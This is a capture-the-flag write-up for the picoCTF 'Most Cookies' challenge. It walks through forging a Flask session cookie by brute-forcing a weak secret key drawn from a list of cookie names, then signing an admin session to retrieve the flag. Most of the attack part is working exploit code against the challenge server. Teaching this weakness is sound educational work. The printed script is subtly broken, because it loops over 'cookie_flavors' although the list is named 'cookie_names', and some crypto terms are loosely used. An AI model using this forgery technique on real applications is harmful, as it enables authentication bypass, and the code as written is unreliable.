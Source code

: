 # Most Cookies
### Authored by Katrina Lee

![image](challenge.PNG)

## Introduction

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period. Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **[SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Scripting

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to import a couple of modules:
* `from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer` - to unsign the old session and sign the new one with timestamps
* `from flask.json.tag import TaggedJSONSerializer` - to create a new session
* `import hashlib` - to encrypt with session with a SHA-1 hash
* `import requests` - in my [writeup](../Cookies/README.md) for the `Cookies` challenge, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

Okay now, let's get our original session cookie so we can unsign and validate it. There are many ways we can go about this:
1. [DevTools](../Cookies/README.md)
2. [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) - visit the website and use this browser extension to see the cookies
3. [Burp Suite](https://portswigger.net/burp)
4. [cURL](https://curl.se/docs/manpage.html) - if you're on Linux, make a curl request to the server and retrieve the request headers with `curl -v http://mercury.picoctf.net:6259/`

For each of the above methods, once you acquire the cookie value, simply copy & paste it into the script: `old_session = eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`. Keep in mind that the session cookie (and thus, the secret key) seems to change periodically, so don't just copy this one here.

5. Python (recommended) - dynamically retrieve cookie value with a `Session` object
```
s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]
```

Now, let's loop through each cookie in `cookie_name`, create a signature with the cookie name as the secret key, and unsign that signature. If this process raises no errors (meaning the unsigning was successful), then we can break out of the loop and use this cookie name as our secret key:
```
for secret in cookie_flavors:
    try:
        signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
    except:
        continue
    break
```

Then, with our newly-acquired secret key and the session data, we can create a new session cookie using a similar process:
```
new_session = serializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer=tsigner,
    signer_kwargs={
        "key_derivation":"hmac",
        "digest_method":hashlib.sha1
    }
).dumps(data)
```

Lastly, we want to make another HTTP GET request to the website with `new_session` as the new session cookie and print out the response.
```
response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
Note: According to line 16 of `server.py`, the website redirects to the `/display` route if the value of the `very_auth` key in the `session` dictionary is not `blank`. Recall the `data` variable we defined earlier: `data = {"very_auth": "admin"}`. As you can see, `very_auth` is not `blank`. So we can simply request the `/` root, using the same `URL` variable we defined earlier; there is no need to specifically request the `/display` endpoint, since we will be redirected there anyways.

We can now run this script like so: `python3 most_cookies.py`. The alternative is to make the script print out the new session, and use `curl -v http://mercury.picoctf.net:6259/display -H 'Cookie: session={new_session}` to make the HTTP request.

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```

